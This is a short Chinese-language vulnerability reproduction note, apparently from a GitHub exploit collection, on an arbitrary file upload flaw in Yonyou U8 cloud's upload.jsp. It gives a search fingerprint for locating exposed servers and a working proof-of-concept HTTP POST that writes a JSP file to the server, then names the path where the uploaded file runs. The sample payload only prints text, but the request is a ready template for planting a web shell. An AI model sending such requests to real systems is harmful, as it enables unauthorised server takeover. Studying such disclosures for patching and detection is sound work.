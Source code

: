 # 用友 U8 cloud upload.jsp 任意文件上传漏洞

## 漏洞描述

用友 U8 cloud upload.jsp 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 U8 cloud

## 网络测绘

```
"开启U8 cloud云端之旅"
```

## 漏洞复现

登陆页面

![image-20231116141405041](images/image-20231116141405041.png)

poc

```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```

![image-20231116141354722](images/image-20231116141354722.png)

```
/linux/Test.jsp
```

